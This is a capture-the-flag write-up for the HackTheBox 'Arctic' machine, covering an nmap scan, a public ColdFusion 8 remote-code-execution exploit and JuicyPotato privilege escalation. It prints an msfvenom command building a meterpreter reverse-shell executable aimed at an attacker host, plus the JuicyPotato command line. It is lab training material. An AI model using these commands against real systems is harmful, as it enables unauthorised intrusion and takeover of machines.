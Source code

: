 ## HackTheBox -  Arctic

I started with nmap to see which ports are open.

`nmap -sC -sV -sC <IP>`

![Screenshot0](./screenshots/0.png)



First I took a closer look at the web server.
Enumeration with FFUF was not necessary here, because we have `directory listing`.

![Screenshot1](./screenshots/1.png)

I looked around further and discovered an __Adobe Coldfusion 8__ login.

![Screenshot2](./screenshots/2.png)

Interesting, I looked to see if the version was vulnerable and found an Unauthenticated [RCE Exploit](https://www.exploit-db.com/exploits/50057).


I set the correct values in the exploit script, ran it and got a reverse shell on my netcat listener as user `tolis`.

I went to the desktop and got the user flag.

![Screenshot3](./screenshots/3.png)

# PrivEsc

I enumerated the system a bit and tried a few exploits.

Finally it was the `JuicyPotato` exploit which worked.

For this attack we need a `SeImpersonatePrivilege` or a `SeAssignPrimaryTokenPrivilege` on `enabled`.

Whether this is the case can be seen with the command `whoami /priv`.

![Screenshot4](./screenshots/4.png)

I created a `reverse exe` which is then executed by the exploit and gives us a new privileged shell.

`msfvenom -p windows/meterpreter_reverse_tcp LHOST=<ATTACKER_IP> LPORT=5555 -f exe > revPE.exe`

With `certutil.exe` I loaded the reverse exe and the `JuicyPotato` exploit to the machine.

I executed the exploit...

`JuicyPotato.exe -l 1333 -p C:\Users\tolis\AppData\Local\Temp\revPE.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}`

![Screenshot5](./screenshots/5.png)

...and got my reverse shell on the other window.

![Screenshot6](./screenshots/6.png)
